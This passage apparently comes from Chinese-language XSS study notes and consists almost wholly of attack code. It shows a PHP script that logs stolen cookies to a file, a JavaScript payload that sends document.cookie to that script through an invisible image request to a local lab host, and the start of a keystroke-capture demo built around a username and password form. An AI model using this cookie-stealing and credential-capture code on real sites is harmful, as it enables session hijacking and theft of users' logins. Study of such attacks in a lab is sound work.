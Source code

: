 ```php
//cookie.php

<?php

$cookie=$_GET['cookie'];   //获取cookie信息
$log = fopen('cookie.txt','a');    //生成获取的cookie信息，打开文件，a是追加写模式
fwrite($log,$cookie.PHP_EOL);  //fwrite写入
fclose($log);

?>
```

```js
//cookie.js

var img = document.createElement('img');
img.width = 0;
img.height = 0;
img.src='http://127.0.0.1/xss-cookie/cookie.php?cookie='+encodeURIComponent(document.cookie);
```

![image-20240912205752575](./assets/image-20240912205752575.png)

> 键盘输入值获取

```html
//index.html

<html>
    <head>
        <script type="text/javascript" src="./log.js"></script>
        <meta charset="utf8">
        <form action="#" method="post" id="form1">
            <label>Username:&nbsp;&nbsp;</label>
            <input type="text" name="username"/><br/>
            <label>PassWord:&nbsp;&nbsp;</label>
            <input type="password" name="password"/><br/><br/>
            <input type="submit" value="submit"/>
        </form>
    </head>
</html>
```

